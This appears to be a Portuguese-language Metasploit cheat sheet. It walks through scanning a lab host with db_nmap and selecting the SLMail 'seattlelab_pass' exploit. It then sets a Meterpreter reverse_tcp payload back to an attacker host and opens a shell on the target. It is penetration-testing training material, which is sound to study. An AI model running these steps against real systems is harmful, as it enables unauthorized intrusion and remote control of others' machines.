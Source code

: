 # MetaSploit Framework

Ferramenta desenvolvida pela rapid7.com para auxiliar na criação e utilização de exploits.

Iniciando MSF:
service postgresql start
msfconsole

Comando de ajuda:
msf > help

Verificando a conexão com o banco de dados:
msf > db_status

Escaneamento de alvo salvando as informações no DB:
msf > db_nmap -A 172.16.1.4

Importando arquivo XML do NMAP:
nmap -v -A 172.16.1.5 -oX host5.xml
msf > db_import host5.xml

Listagem dos hosts:
msf > hosts

Verificando vulnerabilidade nos hosts:
msf > vulns

Listagem de serviços:
msf > services

Buscando exploit:
msf > search slmail

Usando exploit:
msf > use exploit/windows/pop3/seattlelab_pass

Ver informações do exploit:
msf exploit(seattlelab_pass) > info

Setando parâmetros no exploit:
msf exploit(seattlelab_pass) > show options
msf exploit(seattlelab_pass) > set RHOST 172.16.1.4
msf exploit(seattlelab_pass) > show options

Verificando payloads disponíveis:
msf exploit(seattlelab_pass) > show payloads

Setando payload para ser utilizado:
msf exploit(seattlelab_pass) > set payload windows/meterpreter/reverse_tcp
msf exploit(seattlelab_pass) > show options
msf exploit(seattlelab_pass) > set LHOST 172.20.0.2
msf exploit(seattlelab_pass) > set LPORT 4444
msf exploit(seattlelab_pass) > show options

Executando exploit:
msf exploit(seattlelab_pass) > exploit
meterpreter > ipconfig

Verificando comandos no meterpreter:
meterpreter > help

Abrindo o shell:
meterpreter > shell

Exibindo módulos auxiliares:
msf > show auxiliary
